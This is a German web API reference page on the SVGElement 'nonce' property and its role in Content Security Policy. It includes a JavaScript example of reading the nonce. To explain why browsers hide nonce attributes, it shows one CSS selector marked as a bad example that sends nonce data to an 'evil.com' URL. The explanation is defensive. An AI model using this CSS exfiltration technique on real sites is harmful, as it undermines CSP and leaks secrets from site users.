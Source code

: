 ```yaml
---
title: "SVGElement: nonce-Eigenschaft"
short-title: nonce
slug: Web/API/SVGElement/nonce
l10n:
  sourceCommit: e9b6cd1b7fa8612257b72b2a85a96dd7d45c0200
---
```


{{APIRef("SVG")}}

Die **`nonce`**-Eigenschaft des [`SVGElement`](/de/docs/Web/API/SVGElement)-Interfaces gibt den Nonce zurück, der von der [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP) verwendet wird, um zu bestimmen, ob ein bestimmter Abruf durchgeführt werden darf.

## Wert

Ein String; der kryptografische Nonce oder ein leerer String, wenn kein Nonce gesetzt ist.

## Beispiele

### Abrufen eines Nonce-Wertes

In der Vergangenheit unterstützten nicht alle Browser das `nonce`-IDL-Attribut, daher war es notwendig, einen Workaround wie [`getAttribute`](/de/docs/Web/API/Element/getAttribute) als Fallback zu verwenden:

```js
const svg = document.querySelector("svg");
const nonce = svg.nonce || svg.getAttribute("nonce");

// Modern browsers hide the nonce attribute from getAttribute()
console.log(nonce); // Prefer using `svg.nonce`
```

Allerdings verbergen neuere Browserversionen `nonce`-Werte, die auf diese Weise abgerufen werden (ein leerer String wird zurückgegeben). Die IDL-Eigenschaft (`svg['nonce']`) wird die einzige Möglichkeit sein, Nonces zuzugreifen.

Das Verbergen von Nonces hilft zu verhindern, dass Angreifer Nonce-Daten über Mechanismen exfiltrieren, die Daten von Inhaltsattributen abrufen können, wie in diesem CSS-Selektor:

```css example-bad
svg[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce), eine ähnliche Methode für HTML-Elemente.
- [`nonce` globales Attribut](/de/docs/Web/HTML/Reference/Global_attributes/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: {{CSP("script-src")}}

